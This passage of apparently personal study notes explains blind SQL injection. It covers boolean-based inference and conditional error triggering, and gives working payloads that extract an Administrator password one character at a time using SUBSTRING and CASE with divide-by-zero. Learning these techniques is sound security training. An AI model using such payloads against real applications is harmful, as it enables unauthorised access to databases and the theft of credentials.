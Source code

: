 2. Next send the following input:
	 - This does not return the "Welcome back" message,
	 - indicating that the injected condition is false,
	 - and so the first character of the password is not greater than `t`.


```sql
xyz' UNION SELECT 'a' FROM Users
WHERE Username = 'Administrator'
AND SUBSTRING(Password, 1, 1) > 't'--
```


3. Eventually, confirming that the first character of the password is s:

```sql
xyz' UNION SELECT 'a' FROM Users
WHERE Username = 'Administrator'
AND SUBSTRING(Password, 1, 1) = 's'--
```

4. continue this process to systematically determine the full password for the Administrator user.

> Note: The `SUBSTRING` function is called `SUBSTR` on some types of database.
For more details, see the SQL injection cheat sheet.


---

#### Inducing conditional responses by triggering SQL errors

suppose instead that the application carries out the same SQL query, but does not behave any differently depending on whether the query returns any data.
- The preceding technique will not work,
- because injecting different Boolean conditions makes no difference to the application's responses.

In this situation, induce the application to return conditional responses by triggering SQL errors conditionally, depending on an injected condition.
- This involves modifying the query so that it will cause a database error if the condition is true, but not if the condition is false.
- Very often, an unhandled error thrown by the database will cause some difference in the application's response (such as an error message), allowing us to infer the truth of the injected condition.

These inputs use the `CASE` keyword to `test a condition` and `return a different expression depending on whether the expression is true`.
- Assuming the error causes some difference in the application's HTTP response, use this difference to infer whether the injected condition is true.


```py
xyz' UNION SELECT CASE WHEN (1=2) THEN 1/0 ELSE NULL END--
# the case expression evaluates to NULL, does not cause any error.

xyz' UNION SELECT CASE WHEN (1=1) THEN 1/0 ELSE NULL END--
# it evaluates to 1/0, which causes a divide-by-zero error.


# to retrieve data by systematically testing one character at a time:
xyz' union select case when (username = 'Administrator' and SUBSTRING(password, 1, 1) > 'm') then 1/0 else null end from users--
```
